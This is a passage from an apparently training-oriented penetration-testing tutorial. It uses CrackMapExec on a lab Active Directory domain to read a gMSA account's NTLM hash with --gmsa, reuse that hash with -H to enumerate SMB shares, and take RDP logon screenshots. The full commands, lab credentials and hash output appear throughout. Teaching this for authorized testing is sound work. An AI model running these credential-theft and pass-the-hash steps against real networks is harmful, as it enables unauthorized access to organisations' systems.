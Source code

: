 ```shell-session
```

In the above example, we can see that the user `engels` has the privilege `PrincipalsAllowedToRetrieveManagedPassword`, which means that it can read the password for the gMSA account `svc_inlaneadm$`. If we compromise an account with the right to read a gMSA password, we can use the option `--gmsa` to retrieve the account's NTLM password hash.

### **Retrieving gMSA Password**

```shell-session
$ crackmapexec ldap dc01.inlanefreight.htb -u engels -p Inlanefreight1998! --gmsa

SMB         dc01.inlanefreight.htb 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
LDAP        dc01.inlanefreight.htb 636    DC01             [+] inlanefreight.htb\engels:Inlanefreight1998! 
LDAP        dc01.inlanefreight.htb 636    DC01             [*] Getting GMSA Passwords
LDAP        dc01.inlanefreight.htb 636    DC01             Account: svc_inlaneadm$       NTLM: 76fa2df9e8f656ae81b0bd271bef0346
```

To use these credentials, we can use the option `-H` for hashes.

### **Reviewing Shared Folders with the svc\_inlaneadm$ Account**

```shell-session
$ crackmapexec smb dc01.inlanefreight.htb -u svc_inlaneadm$ -H 76fa2df9e8f656ae81b0bd271bef0346 --shares

SMB         dc01.inlanefreight.htb 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         dc01.inlanefreight.htb 445    DC01             [+] inlanefreight.htb\svc_inlaneadm$:76fa2df9e8f656ae81b0bd271bef0346 
SMB         dc01.inlanefreight.htb 445    DC01             [+] Enumerated shares
SMB         dc01.inlanefreight.htb 445    DC01             Share           Permissions     Remark
SMB         dc01.inlanefreight.htb 445    DC01             -----           -----------     ------
SMB         dc01.inlanefreight.htb 445    DC01             ADMIN$                          Remote Admin
SMB         dc01.inlanefreight.htb 445    DC01             C$                              Default share
SMB         dc01.inlanefreight.htb 445    DC01             CertEnroll      READ            Active Directory Certificate Services share

<SNIP>
```

***

## RDP Screenshots

We can use CrackMapExec to enumerate usernames through the RDP protocol. If the option to allow RDP only with NLA is disabled on the target machine, we can use the `--nla-screenshot` option to take a screenshot of the logon prompt.
